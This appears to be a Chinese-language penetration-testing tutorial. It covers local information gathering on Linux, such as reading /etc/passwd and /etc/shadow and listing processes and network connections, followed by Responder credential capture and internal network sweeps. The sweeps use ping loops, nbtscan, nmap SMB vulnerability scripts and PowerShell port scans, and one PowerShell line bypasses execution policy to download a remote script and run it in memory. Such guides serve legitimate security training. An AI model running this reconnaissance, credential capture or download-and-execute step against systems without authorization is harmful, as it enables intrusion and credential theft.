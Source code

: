 # Linux下信息收集



在linux环境下收集如下本机信息：

1. 系统类型
2. 内核版本
3. 进程
4. 安装的软件包
5. 服务配置
6. 网络配置
7. 网络通讯
8. 用户信息
9. 日志信息

### 实验步骤： <a id="-"></a>

#### 1.系统类型 <a id="1-"></a>

cat /etc/issue查看系统名称

![](https://p408.ssl.qhimgs4.com/t012b30c6dbe4eec94c.png)

lsb\_release查看系统名称、版本号

![](https://p408.ssl.qhimgs4.com/t01fc1b5984eabf1c13.png)

#### 2. 内核版本 <a id="2-"></a>

uname –a 查看所有信息

![](https://p408.ssl.qhimgs4.com/t01c0838b65d2594c14.png)

uname –mrs查看内核版本及架构

![](https://p408.ssl.qhimgs4.com/t01203663032aa55600.png)

#### 3. 进程 <a id="3-"></a>

ps aux 查看进程信息

![](https://p408.ssl.qhimgs4.com/t013752d7640a3db143.png)

ps –ef查看进程信息

![](https://p408.ssl.qhimgs4.com/t01dc8eb303b3a9a7fb.png)

#### 4. 安装的软件包 <a id="4-"></a>

使用dpkg –l查看安装的软件包

![](https://p408.ssl.qhimgs4.com/t01d0cd0ba189b50128.png)

![](https://p408.ssl.qhimgs4.com/t01afebf730c1cc04a9.png)

#### 5. 服务配置 <a id="5-"></a>

查看apache配置文件

![](https://p408.ssl.qhimgs4.com/t01429f40ea60308b5f.png)

![](https://p408.ssl.qhimgs4.com/t01fbaa247978f07036.png)

#### 6. 网络配置 <a id="6-"></a>

查看网卡配置文件

![](https://p408.ssl.qhimgs4.com/t018a5648c6e5a5e154.png)

查看dns配置文件

![](https://p408.ssl.qhimgs4.com/t0114a6831d40528891.png)

使用hostname查看主机名

![](https://p408.ssl.qhimgs4.com/t01326c2c74bfc0cc1b.png)

使用iptables –L查看防火墙配置（注意需要root权限）

![](https://p408.ssl.qhimgs4.com/t01a9c8110e318c7e85.png)

#### 7. 网络通讯 <a id="7-"></a>

使用netstat命令

![](https://p408.ssl.qhimgs4.com/t0122420db9b75d61ae.png)

![](https://p408.ssl.qhimgs4.com/t01a1774a36d95ffc56.png)

netstat –antlp 查看tcp socket

![](https://p408.ssl.qhimgs4.com/t016a6fb2fd25429c2a.png)

使用route查看路由

![](https://p408.ssl.qhimgs4.com/t0187c43c84c3fb2da3.png)

#### 8. 用户信息 <a id="8-"></a>

Whoami查看当前用户

![](https://p408.ssl.qhimgs4.com/t016d064c50ae307feb.png)

使用id查看当前用户id，组id

![](https://p408.ssl.qhimgs4.com/t01957c209d0c32ba0d.png)

cat /etc/passwd查看密码信息

![](https://p408.ssl.qhimgs4.com/t0115fc689a8154fc62.png)

cat /etc/group查看用户组信息

![](https://p408.ssl.qhimgs4.com/t01a3402e2e04094a5b.png)

cat /etc/shadow查看密码信息，需要root权限

![](https://p408.ssl.qhimgs4.com/t01ff53eb190c2fc87b.png)

#### 9. 日志信息 <a id="9-"></a>

Cat syslog查看系统日志

![](https://p408.ssl.qhimgs4.com/t01e6f62445daedddb1.png)

使用w 、who、lastlog等命令查看登陆日志

![](https://p408.ssl.qhimgs4.com/t01c13ee0d10965bc77.png)

#### 10. Responder使用 <a id="10-responder-"></a>

可修改Responder.py抓取要获得的内容

只抓取ftp

![](https://p408.ssl.qhimgs4.com/t01cbdee46482160fea.png)

```text
python Responder.py -h -I eth0 -A -f
```

### 扩散信息收集 <a id="-"></a>

#### Windows <a id="windows"></a>

**ICMP**

```text
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.111.%I | findstr "TTL="
```

**netbios**

```text
nbtscan-1.0.35.exe 192.168.111.1/24
```

**nmap：根据环境考虑是否安装**

```text
nmap -sn -PM 192.168.111.0/24
```

扫描smb共享，顺便扫描几个漏洞

```text
nmap -sT -p 445,139,137  -T2 --open -v --script=smb-os-discovery.nse,smb-enum-shares.nse,smb-vuln-ms08-067.nse,smb-vuln-ms17-010.nse 192.168.111.0/24
```

![](https://p408.ssl.qhimgs4.com/t01373dae6756f61ba9.png)

**Powershell**

Invoke-TSPingSweep.ps1

```text
Import-Module .\Invoke-TSPingSweep.ps1
Invoke-TSPingSweep -StartAddress 192.168.111.1 -EndAddress 192.168.111.254 -ResolveHost -ScanPort -Port 3389 -TimeOut 500
```

Invoke-Portscan.ps1

```text
Import-Module .\Invoke-Portscan.ps1
Invoke-Portscan -Hosts 192.168.111.0/24 -T 4 -ports '3389,445' 
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.111.0/24 -T 4 -ports '3389,80' 
```

#### Linux <a id="linux"></a>

**ICMP**

```text
for i in 192.168.111.{1..254}; do if ping -c 3 -w 3 $i &>/dev/null; then echo $i is alived; fi; done
```

**netbios**

```text
wget http://www.unixwiz.net/tools/nbtscan-source-1.0.35.tgz
tar xf nbtscan-source-1.0.35.tgz
make
chmod +x nbtscan
./nbtscan 192.168.111.1/24
```

**arpscan**

```text
git clone https://github.com/attackdebris/arpscan.git
make
chmod +x arpscan
./arpscan
```

